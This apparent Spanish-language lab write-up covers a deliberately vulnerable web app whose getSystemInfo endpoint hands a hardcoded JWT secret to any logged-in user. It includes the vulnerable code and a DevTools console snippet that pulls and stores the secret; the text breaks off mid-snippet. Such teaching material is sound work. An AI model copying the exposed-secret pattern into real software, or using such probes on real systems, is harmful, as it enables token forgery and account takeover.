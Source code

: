 - **Frontend API**: `getSystemInfo()` en `services/api.ts` (líneas 256-285)
- **Frontend UI**: `/system` - Componente SystemInfo.tsx

### 🔍 **Código Vulnerable**

```javascript
// services/api.ts
const SYSTEM_CONFIG = {
  jwt_secret: 'vulnerable-secret-key', // 🚨 Secret expuesta
  server_info: 'Ubuntu 20.04',
  database_info: 'JSON Local Storage',
  debug_mode: true,
  last_backup: '2024-01-15',
  admin_users: ['admin'],
  total_users: usersDatabase.length
};

export const getSystemInfo = async (): Promise<SystemInfo> => {
  await simulateNetworkDelay();
  
  const token = localStorage.getItem('token');
  if (!token) {
    throw createHttpError(401, 'Token requerido');
  }

  const decoded = decodeSimpleJWT(token);
  if (!decoded) {
    throw createHttpError(403, 'Token inválido');
  }

  // 🚨 CUALQUIER usuario autenticado puede acceder
  console.log(`🚨 VULNERABILITY EXPLOITED: User ${decoded.username} accessed system info including JWT secret`);

  return {
    server: SYSTEM_CONFIG.server_info,
    database: SYSTEM_CONFIG.database_info,
    users_count: usersDatabase.length,
    admin_users: SYSTEM_CONFIG.admin_users,
    secret_key: SYSTEM_CONFIG.jwt_secret, // 🚨 MUY VULNERABLE
    last_backup: SYSTEM_CONFIG.last_backup,
    debug_mode: SYSTEM_CONFIG.debug_mode
  };
};
```

### 💥 **Formas de Explotación**

#### **Método 1: Acceso Directo a System Info**
```javascript
// Ejecutar en DevTools Console como cualquier usuario autenticado
api.getSystemInfo().then(info => {
  console.log("🚨 INFORMACIÓN CRÍTICA DEL SISTEMA OBTENIDA:");
  console.log("🔑 JWT Secret:", info.secret_key);
  console.log("👥 Usuarios Admin:", info.admin_users);
  console.log("🖥️ Servidor:", info.server);
  console.log("💾 Base de datos:", info.database);
  console.log("🐛 Modo debug:", info.debug_mode);
  console.log("💾 Último backup:", info.last_backup);
  
  // Guardar secret para uso posterior
  (window as any).stolenSecret = info.secret_key;
}).catch(err => {
  console.log("❌ Error:", err.message);
```